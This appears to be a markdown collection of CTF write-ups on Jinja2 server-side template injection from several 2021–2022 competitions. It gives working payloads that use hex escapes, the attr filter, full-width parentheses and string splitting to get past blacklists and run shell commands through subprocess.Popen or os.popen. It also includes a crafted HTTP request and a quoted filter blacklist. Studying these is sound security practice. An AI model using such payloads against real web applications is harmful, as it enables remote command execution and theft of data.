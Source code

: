 - ## Imaginary ctf 2021(Build-a-website):
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- ## Imaginary ctf 2021(Sinking calculator): 
![image](https://github.com/poorvi1910/Web/assets/146640913/f78f996d-601d-45c4-a6dc-35fb80e43e82)
In this code, the input length is limited to 80 chars and output is only printed if it has numbers or minus.
Payload: ```calc?query=config.class.init.globals[%27os%27].popen(%27od%20-b%20-An%20fla*%27).read()``` <br>
translates to ```config.class.init.globals['os'].popen('od -b -An fla*').read()```. The command ```od -b -An fla*``` is used to display file contents in octal format, without displaying the filename (-An)
  - od: This is the "octal dump" command, which is used to display file contents in different formats (octal, hexadecimal, decimal, ASCII, etc.).
  - b: This option tells od to display the output in octal bytes. Each byte in the file(s) will be displayed as a three-digit octal number.
  - An: This option tells od to suppress the default output of file offsets. Normally, od prefixes each line of output with the byte offset of that line within the file. -An removes these offsets from the output.
  - fla*: This is a shell glob pattern. It matches any files in the current directory whose names start with "fla". For example, it could match files like "flag.txt", "flag1.txt", etc.<br>
The ouput gives a string of numbers which when converted from octal to ascii gives the flag.

- ## DarkCON CTF 2021(DMM):

The following payload will return all subclasses.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}```

The following payload will return the output of the id command.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```

```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
Listing the directory content with the following payload.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
And printing flag.txt file.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}&#39; is 404 Not Found.</h1>
</div>
```

- ## (Unkown ctf)
  This chall required a payload with '' blacklisted
  Payload: ``` {{url_for.__globals__.os.popen(request.headers.hack).read()}}```
  It was required to supply the executable commands in the request header named ‘hack’. To achieve this, intercept the form’s POST request using Burp 
  Suite and modify the parameters accordingly.
```
GET /{{url_for.__globals__.os.popen(request.headers.hack).read()}} HTTP/1.1
hack: cat ../flag.txt
Host: chal.pctf.competitivecyber.club:5555
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal.pctf.competitivecyber.club:5555/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
- ## Nahamcon 2022(Deafcon):
  In this challenge, parenthesis were blacklistyed which means that any python command could not be executed. The way around this was to use full width parenthesis intead of half width which would serve the purpose and all bypass the filter.
 Final payload:```"{{ self._TemplateReferencecontext.cycler.init.globals__.os.popen（'cat flag.txt'）.read（）}}"@aaa.com```
This payload was inserted into the email field and flag was obtained

- ## Crewctf 2022 (Ezchall):
  Blocks:
  ```if input.count('.') > 1 or input.count(':') > 1 or input.count('/') > 1 :```
limited payload size: ```if len(input) < 115```
can’t use digits so we can’t bypass the blacklist with Unicode.
```
if char in string.digits:
	return False
```
Finally, the blacklist.
```UNALLOWED = [
 'class', 'mro', 'init', 'builtins', 'request', 'app','sleep', 'add', '+', 'config', 'subclasses', 'format', 'dict', 'get', 'attr', 'globals', 'time', 'read', 'import', 'sys', 'cookies', 'headers', 'doc', 'url', 'encode', 'decode', 'chr', 'ord', 'replace', 'echo', 'base', 'self', 'template', 'print', 'exec', 'response', 'join', 'cat', '%s', '{}', '\\', '*', '&',"{{", "}}", '[]',"''",'""','|','=','~']
```

Approach:
  - {{ and }} are filtered, so we’ll probably use {%
  - cycler.__init__.__globals__.os.popen('id').read()
  - to make it easier to deal with blacklisted words and also the count of dots,changed it to this format: ```cycler['__init__']['__globals__']['os']['popen']('id')['read']()```
  - we need to us an empty space between the blacklisted strings: ```cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()```
  - The only problem here, is that we’re exceeding the length limit. Solution was using lipsum.: ```lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()```

- ##
